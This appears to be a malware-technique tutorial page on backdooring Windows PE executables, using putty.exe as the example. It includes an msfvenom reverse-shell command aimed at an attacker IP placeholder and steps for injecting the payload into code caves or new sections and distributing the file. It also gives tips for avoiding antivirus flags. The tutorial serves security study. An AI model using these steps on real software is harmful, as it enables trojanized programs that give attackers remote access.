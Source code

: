 ```yaml
---
layout: default
---
```


# Backdooring PEs

Backdooring a PE (Portable Executable) file involves adding malicious code to the file in order to gain unauthorized access to a system or steal sensitive information. This is a common technique used by attackers to compromise systems and is a serious security threat.

To backdoor a PE file, an attacker can use a variety of techniques such as code injection, DLL hijacking, or modifying the import table. One common technique is to use a tool like Metasploit to generate a payload that can be injected into the PE file.

Here are the general steps to backdoor a PE file using Metasploit:

1. Generate a payload using Metasploit. This can be done using the `msfvenom` command in the terminal. For example, to generate a reverse shell payload, you can use the following command:

   ```
   msfvenom -p windows/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f exe -o payload.exe
   ```

   This will generate a payload in the form of an executable file called `payload.exe`.

2. Identify the target PE file that you want to backdoor. This can be any executable file that runs on the target system.

3. Use a tool like `PE Explorer` to open the target PE file and locate the section where you want to inject the payload. This can be the `.text` section or any other section that contains executable code.

4. Use a hex editor to modify the target PE file and inject the payload into the desired section. This can be done by copying the payload code and pasting it into the target file at the appropriate location.

5. Save the modified PE file and distribute it to the target system.

Once the backdoored PE file is executed on the target system, the payload will be executed and the attacker will gain unauthorized access to the system. It is important to note that backdooring a PE file is illegal and can result in serious legal consequences. It is important to always use ethical hacking techniques and obtain proper authorization before attempting any type of security testing.

In this section, we shall walk over these steps in detail:

## Methods of implanting new code
The purpose of implanting new code is either to add additional functionalities to the program, or modify the exist code. For an attacker, the Code Caves are especially interesting as malicious code may be injected to these sections and modify the behavior of the program.

There are typcially three ways to implant new code to a PE file.

- Code Cave
	- The downside of using this method is that the size is most limited and if there are complex and longer shellcodes then it may not fit into the identified code cave location. 
- New Section
	- We can always create a new section and is stil one of the most powerful method as it gives the user flexibility to add shellcode of any length. The downsizde however, as this section is set as `executable`, the AV engines may flag this as malicious.
- Extending Section
	- We can extend the existing section ( typically the last one ) and increase its size enough to hold the shellcode.

We can also chain these method together: for example, find a code cave in a text section, which will hold a small piece of code, that will load additional code from an other section or resources. The new section need not be executable thereby lowering the risk of being flagged as malicious.

In this section for demonstration purposes, lets use code cave for backdooring:

### Code Cave
The first step is to find the appropriate location to store our payload, these spaces in the PE are called as "Code Caves". These are unallocated spaces within the program's code that can be used to inject additional code. These spaces are typically created during the compilation process when the compuler aligns code sections to specific code boundaries. 

We can use the [Cminer](https://github.com/EgeBalci/Cminer) for this purpose. To demonstrated the discovery of the code caves we shall use [putty.exe](https://www.putty.org/).

![Cminer1](/docs/resources/malware/Cminer1.png)

And the size of each of these caves as demonstrated below:

```cpp                                                              
[+] 6 Caves found.                                                                          
                         
[#] Cave 1                                                                                  
[*] Section: .data                                                            
[*] Cave Size: 3090 byte.                                                     
[*] Start Address: 0x47b3fc                                            
[*] End Address: 0x47c00e                                            
[*] File Ofset: 0x7b3fc                                                                     
                                                                                            
[#] Cave 2                                                                                  
[*] Section: .data                                                      
[*] Cave Size: 559 byte.                                             
[*] Start Address: 0x47a9e1                                            
[*] End Address: 0x47ac10                                              
[*] File Ofset: 0x7a9e1                                                                     
                                                                                            
[#] Cave 3                                                                                  
[*] Section: .data                                                      
[*] Cave Size: 331 byte.                                             
[*] Start Address: 0x47a11d                                            
[*] End Address: 0x47a268                                                    
[*] File Ofset: 0x7a11d                                                                     
                                                                                            
[#] Cave 4                                                                                  
[*] Section: .rdata                                                     
[*] Cave Size: 602 byte.                                             
[*] Start Address: 0x479daa                                            
[*] End Address: 0x47a004                                               
[*] File Ofset: 0x79daa                                                                     
                                                                                            
[#] Cave 5                                                                                  
[*] Section: No Section.                                               
[*] Cave Size: 1695 byte.                                            
[*] Start Address: 0x5c961                                           
[*] End Address: 0x5d000                                             
[*] File Ofset: 0x0                                                                         
                                                                                            
[#] Cave 6                                                                                  
[*] Section: No Section.                                
[*] Cave Size: 3432 byte.                                                              
[*] Start Address: 0x298                             
[*] End Address: 0x100                                                                   
[*] File Ofset: 0x0                                                                         
```                       

We can use any of these sections to store our malicious code, the seciton `.data` hold initialized data and/or global variables, also this section is usually READABLE and WRITEABLE. The `.text` section is where the code resides and is READABLE and EXECUTABLE.

We can look into these section with a tool called [PE Bear](https://github.com/hasherezade/pe-bear). The tool helps us understand the various sections and their characteristics.


![PE Tools](/docs/resources/malware/PETool1.gif)

There are functionalities too add sections to the binary or extend any section. Simply click on the section and modify the size, as shown below:

![PE Tool - Section](/docs/resources/malware/modify-section.png)

We can also there sections using the [x64dbg.exe](https://x64dbg.com/) tool.

![x64DGB](/docs/resources/malware/x64dgb1.gif)






